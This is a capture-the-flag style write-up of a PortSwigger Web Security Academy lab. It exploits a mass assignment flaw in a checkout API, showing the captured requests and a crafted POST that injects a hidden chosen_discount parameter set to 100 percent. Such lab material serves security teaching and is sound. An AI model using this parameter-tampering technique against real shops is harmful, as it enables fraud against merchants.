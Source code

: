 ## [Lab-02: Exploiting a mass assignment vulnerability](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability)
To solve the lab, find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.
almost identical to 1

```
Required knowledge

To solve this lab, you'll need to know:

- What mass assignment is.
- Why mass assignment may result in hidden parameters.
- How to identify hidden parameters.
- How to exploit mass assignment vulnerabilities.
```


### Sign into the app, and run the Content Discovery tool
this will reveal some of the API routes and give you an idea of how it works, and a clue as to what you need to change
try and purchase the jacket and accumulate the following Get request in your history

</br>

- In **Proxy > HTTP history**, notice both the `GET` and `POST` API requests for `/api/checkout`.

```http
GET /api/checkout HTTP/2
Host: 0afa00be0361459380926d9b009b0096.web-security-academy.net
Cookie: session=EWhGuZzEo1xsMTNf4z8SpLQFV9JtnMKw

```

Response
```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{
  "chosen_discount": {
    "percentage": 0
  },
  "chosen_products": [
    {
      "product_id": "1",
      "name": "Lightweight \"l33t\" Leather Jacket",
      "quantity": 1,
      "item_price": 133700
    }
  ]
}
```
</br>

- the response to the `GET` request contains the same JSON structure as the `POST` request. Observe that the JSON structure in the `GET` response includes a `chosen_discount` parameter, which is not present in the `POST` request.

- Send `POST /api/checkout` request to Repeater, and add the `chosen_discount` parameter to the request. The goal is to get the jacket for free, so edit the json values accordingly

Here is the custom `POST /api/checkout` request
```http
POST /api/checkout HTTP/2
Host: 0a3b0082035c62d780a7c1a100420056.web-security-academy.net
Cookie: session=io2WJLKK9Rva0E8TtRHtWk7y0FpYzSnb
Referer: https://0a3b0082035c62d780a7c1a100420056.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 155

{"chosen_discount":{"percentage":100},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```

After sending this through, the price should now be successfully updated, and the lab solved
